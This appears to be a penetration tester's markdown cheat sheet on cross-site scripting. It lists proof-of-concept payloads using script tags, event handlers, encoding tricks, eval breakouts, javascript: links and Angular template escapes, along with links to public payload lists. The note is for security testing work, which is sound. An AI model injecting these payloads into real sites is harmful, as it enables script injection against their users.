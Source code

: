 # XSS
**Useful cheatsheet [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)**
**Comprehensive payload list [here](https://github.com/payloadbox/xss-payload-list)**
## POC
- `alert(document.location)`
- `print()`
## Unescaped Tags -> [Script Tags](3.%20Methodology/3.1%20Enumeration/XSS.md#Script%20Tags)
- `<b>STUFF</b>`
- `<b>STUFF`
### Encodings
**Worth double encoding**
- `%3cb%3eSTUFF%3c%2fb%3e`
- `&#x3c;b&#x3e;STUFF&#x3c;&#x2f;b&#x3e;`

## Tag XSS
### Script
- `<script>print()</script>`
- `<SrCiPt>print()</SCriPT>`
### Img
- `<img src="" onerror="print()" />`
- `<svg onload="alert()" />`
### Iframe
- `<iframe onload="alert()" />`
- `<iframe onreadystatechange="alert()" />`
#### Manipulating Iframe
- `this.contentWindow`

## Eval
- `"-print()"`
- `";print()"`

## Href
- `javascript:alert()`

# Angular XSS
**Identify page runs Angular first. Wappalyzer works well**
**Head of page will point to Angular source**
## ng-app
- `{{constructor.constructor('alert()')()}}`
- `{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}`

